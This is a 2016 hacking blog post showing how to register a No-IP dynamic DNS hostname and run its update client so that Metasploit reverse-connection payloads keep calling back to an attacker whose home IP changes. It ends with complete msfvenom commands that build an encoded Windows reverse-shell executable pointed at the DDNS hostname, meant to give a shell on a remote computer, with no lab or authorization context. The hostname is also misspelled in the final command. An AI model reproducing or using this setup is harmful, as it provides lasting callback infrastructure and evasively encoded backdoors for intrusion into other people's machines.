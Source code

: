 ```yaml
---
comments: true
date: 2016-03-06 08:28:02+00:00
slug: use-ddns-to-deal-with-your-dynamic-public-ip
title: Use DDNS to Deal with Your Dynamic Public IP
wordpress_id: 256
categories:
- Hacking
- Networking
tags:
- DDNS
- DNS
- Dynamic IP
- Metasploit
- MSFVenom
- No-IP
---
```


Many of us have an internet connection with dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I'm going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I'm getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that's visible to machines outside your local network. For example if two or more machines are connected through a router (maybe through WiFi) to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router's public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what's your public IP by googling 'What is my IP', Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as _android/meterpreter/reverse_tcp_, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won't be able to use a payload for a long time because  after some time the IP stored inside it won't point to your machine anymore. That's a problem. A major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to the Rescue


We all know what DNS or Domain Naming System is, it's the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a  browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS -> Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is hostname.domainname. Such as I chose the default domain name ddns.com and the hostname I entered is skulltech. So the address I got is 'skulltech.ddns.com'. Refer to the screenshots below for reference.

![step-1](https://techkernel.org/wp-content/uploads/2016/12/step-11.png)
![step-2](https://techkernel.org/wp-content/uploads/2016/12/step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you'll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It's a tar.gz archive, extract it using the following command
```
tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```    
make install
```

![screenshot-from-2016-12-18-14-38-06](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname (or hostnames) that you want to associate with this computer in that step.

```    
noip2 -C
```

When you are done with the configuration, just run **noip2** in the terminal to start the client, it will run in the background and keep updating your DNS record.

```    
noip2
```

![screenshot-from-2016-12-18-14-49-56](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won't be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_ (if you don't check out this tutorial), I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it's _192.168.1.101_

```    
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to msfvenom instead of your IP. So now the command will be

```    
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
